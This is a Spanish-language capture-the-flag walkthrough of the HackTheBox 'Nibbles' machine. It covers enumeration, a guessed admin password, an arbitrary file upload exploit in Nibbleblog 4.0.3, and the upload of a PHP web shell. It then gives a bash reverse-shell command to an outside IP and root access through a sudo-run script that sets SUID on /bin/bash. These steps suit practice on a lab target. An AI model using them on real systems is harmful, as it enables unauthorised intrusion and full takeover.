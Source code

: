 ## Summary

Tags: 
Y
- IP -> 10.10.10.75
- Ports -> TCP (22,80), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 7.2p2  
    - 80 -> Apache httpd 2.4.18 

## Recon
Podemos enumerar usuarios con ese version de SSH, ya que es inferior a la version **7.7** 
Buscaremos con el codename **OpenSSH 7.2p2 ubuntu 4ubuntu2.2 launchpad** y veremos que version de Linux es: Xenial
Buscaremos con el codename **apache httpd 2.4.18 launchpad** y veremos que version de Linux es: Xenial
- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80
En el Wapalyzer miramos que tiene un PHP, y jQuery 2.1.0 que esta desactualizado. La ultima version de jQuery es **3.6.3**

- Cuando tenemos un **PHP** quiere decir que nos interpreta ese codigo, por tanto no lo veriamos, el que podriamos llegar  a ver seria el de **HTML**.

- Que es Nibbleblog? Es un CMS para crear blogs sin usar bases de datos

En el codigo de la web **Ctrl + u** encontramos una ruta **/nibbleblog** y mirams que hay. Por lo que creemos que hay mas rutas. Por ende nos ponemos a hacer un FUZZ

- **wfuzz -c --hc=404 -t 200 -w /usr/share/Seclists/Discovery/Web-content/directory-list-2.3-medium.txt http://10.10.10.75/nibbleblog/FUZZ** Para descibrir rutas alternativas
- **wfuzz -c --hc=404 -t 200 -w /usr/share/Seclists/Discovery/Web-content/directory-list-2.3-medium.txt http://10.10.10.75/nibbleblog/FUZZ.php** Para descubrir archivos php y encontramos un admin.php (Panel de autenticacion)

En el panel de autenticacion ya habiamos descubierto que si hya un usuario valido llamado admin, por lo que la password seria igual que como se llama la maquina nibbles. Y asi logramos entrar en la Web. 

- **Searchsploit Nibbleblogs** y descubrimos que hay una version que es igual a la de la pagina web 4.0.3 que es vulnerable a Arbitrary File Upload 
- searchsploit -x 15265.txt Para mirar el contenido del exploit

Miramos que hay una ruta en la pagina web en donde podemos subir archivos 

En el cual subiremos el siguiente que sera en php.
nano cmd.php
	<?p 
		echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
	 ?>
El cual cuando lo ejecute, nosotros podamos ejecutar comandos
Este archivo lo subimos en **Pluggins::My images** de la pagina Web
La ruta en la url en donde los guarda es **/nibbleblog/content/private/pluggis/my_images**

## User
Ahora podemos ejecutar comando remotos colocando esto al final de la url **?cmd=whoami**
por lo que hacemos lo siguiente:

- Comando -> **nc -nlvp 443** Nos ponemos en escucha por el puerto 443
En la url escribimos lo siguiente /image.php?cmd=**bash -c "bash -i >& /dev/tcp/10.10.14.17/443 0>&1"** Esto nos dara la revershell a nuesta IP
Colocamos lo anterior en url-encode para que nos marque algun error:
- **bash -c "bash -i >%26 /dev/tcp/10.10.14.17/443 0>%261"** 

Y ya entramos a la maquina victima. Por lo que ahora hacemos tratamiento de la tty
-
Tratamiento de la consola Linux cuando entras a una maquina victima
 **Script /dev/null -c bash** Nos sales que esto no se puede hacer, por lo que hacemos lo siguiente
 **Ctrl + z**
 **stty raw -echo; fg**
 **reset xterm**

Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
**echo $SHELL** Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
**export SHELL=bash** Hacemos que shell ahora valga bash
**export TERM=xterm**

Ahora para modificar las dimensiones de nano debemos hacer lo siguiente.
**stty size** Con este comando podemos ver las dimensiones de la consola nano de 24 80 por lo que debemos de modificar ese valor a este
**stty rows 51 columns 189** Modificamos las dimenesiones de la consola nano

-
Despues buscamos la primer flag -> user.txt

## Root

- **sudo -l** Tenemos un privilegio a nivel de sudoers
-Nos debemos de crear una ruta y un archivo con extension .sh que el cual al momento de escribirle algo lo podremos ejecutar como root y asi ganaremos acceso. 

nano monitor.sh 
	#!/bin/bash
	chmod u+s /bin/bash

Con este script queremos que nos ejecute este script con un permiso suid a la bash

- **sudo -u root /home/nibbler/personal/stuff/monitor.sh** Haremos que root no ejecute ese script ya que solo ahi podemos ejecutar con ese privilegio de root y nos dara una S -> privilegio suid 
- **bash -p**  (p=priviledge) y que me de la bash de forma temporal como root y listo 
Ahora solo queda buscar la flag root.txt
